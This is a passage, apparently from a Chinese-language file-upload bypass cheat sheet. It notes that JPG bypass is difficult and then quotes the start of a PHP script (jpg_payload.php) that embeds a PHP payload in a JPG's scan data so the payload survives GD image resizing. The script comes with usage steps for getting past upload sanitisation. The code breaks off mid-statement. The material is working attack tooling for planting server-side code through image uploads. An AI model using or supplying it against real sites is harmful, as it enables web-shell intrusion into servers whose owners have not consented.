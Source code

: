 `jpg`：很难成功实现，可尝试使用脚本生成图片上传尝试

```php
<?php
    /*

    The algorithm of injecting the payload into the JPG image, which will keep unchanged after transformations caused by PHP functions imagecopyresized() and imagecopyresampled().
    It is necessary that the size and quality of the initial image are the same as those of the processed image.

    1) Upload an arbitrary image via secured files upload script
    2) Save the processed image and launch:
    jpg_payload.php <jpg_name.jpg>

    In case of successful injection you will get a specially crafted image, which should be uploaded again.

    Since the most straightforward injection method is used, the following problems can occur:
    1) After the second processing the injected data may become partially corrupted.
    2) The jpg_payload.php script outputs "Something's wrong".
    If this happens, try to change the payload (e.g. add some symbols at the beginning) or try another initial image.

    Sergey Bobrov @Black2Fan.

    See also:
    https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/

    */

    $miniPayload = "<?=phpinfo();?>";


    if(!extension_loaded('gd') || !function_exists('imagecreatefromjpeg')) {
        die('php-gd is not installed');
    }

    if(!isset($argv[1])) {
        die('php jpg_payload.php <jpg_name.jpg>');
    }

    set_error_handler("custom_error_handler");

    for($pad = 0; $pad < 1024; $pad++) {
        $nullbytePayloadSize = $pad;
        $dis = new DataInputStream($argv[1]);
        $outStream = file_get_contents($argv[1]);
        $extraBytes = 0;
        $correctImage = TRUE;

        if($dis->readShort() != 0xFFD8) {
            die('Incorrect SOI marker');
        }

        while((!$dis->eof()) && ($dis->readByte() == 0xFF)) {
            $marker = $dis->readByte();
            $size = $dis->readShort() - 2;
            $dis->skip($size);
            if($marker === 0xDA) {
                $startPos = $dis->seek();
                $outStreamTmp = 
                    substr($outStream, 0, $startPos) . 
                    $miniPayload . 
```